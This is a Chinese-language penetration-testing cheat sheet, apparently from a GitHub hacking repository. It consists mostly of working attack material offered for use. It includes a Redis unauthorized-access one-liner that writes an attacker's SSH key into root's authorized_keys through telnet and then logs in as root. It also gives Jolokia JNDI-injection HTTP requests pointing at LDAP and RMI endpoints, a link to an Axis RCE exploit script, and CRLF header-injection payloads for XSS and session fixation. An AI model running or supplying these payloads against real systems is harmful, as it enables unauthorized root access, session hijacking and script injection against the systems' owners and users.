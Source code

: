 ```
ssh秘钥写入
ssh-keygen -t rsa   # 然后目录下生成2个文件 私钥:id_rsa 公钥:id_rsa.pub
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > temp.txt
cat temp.txt #生成的ssh_payload
(sleep 1;echo "info";sleep 2;echo "set x \"复制生成的ssh_payload\"";sleep 1;echo "config get dir";sleep 2;echo "config get dbfilename";sleep 2;echo "config set dir  /root/.ssh/";sleep 1;echo "config set dbfilename authorized_keys";sleep 1;echo "save";sleep 1;echo "exit")|telnet target 6379
ssh root@target -i id_rsa #本地连接即可

```
### axis_rce漏洞
漏洞利用脚本：
- [hacden/axis_enable_remote](https://github.com/hacden/Hack/blob/master/%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%E8%84%9A%E6%9C%AC/axis_enable_remote.py)
```
参考：https://xz.aliyun.com/t/7981
```
### jolokia未授权漏洞
```
另利用方法：
POST /jolokia/ HTTP/1.1
Host: localhost:10007
Content-Type: application/json
Content-Length: 206

{
    "type" : "read",
    "mbean" : "java.lang:type=Memory",
    "target" : { 
         "url" : "service:jmx:rmi:///jndi/ldap://localhost:9092/jmxrmi"
    } 
}
或
POST /jolokia/ HTTP/1.1
Host: localhost:10007
Content-Type: application/json
Content-Length: 206

{
    "type" : "read",
    "mbean" : "java.lang:type=Memory",
    "target" : { 
         "url" : "service:jmx:rmi:///jndi/rmi://localhost:9092/jmxrmi"
    } 
}
参考：https://xz.aliyun.com/t/2294
```
### CRLF_HTTP头注人
> **多出现于302跳转类型,观察url或参数是否存在于返回包中**
```
1、如访问/test.php?www.xxx.com，，如果存在可如下xss payload测试：
/test.php?www.xxx.com%%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0a%0d%0a<html><script>alert(/crlf/)</script></html>

2、Cookie会话固定：
%0a%0d%0a%0dSet-cookie:JSPSESSID%3Dxxx
%0d%0a%09Set-cookie:%20xxx

3、测试payload
%E5%98%8A%E5%98%8Dcontent-type:text/html%E5%98%8A%E5%98%8Dlocation:%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%BCsvg/onload=alert%28crlf%28%29%E5%98%BE
%2f%2e%2e%0d%0aheader:header
```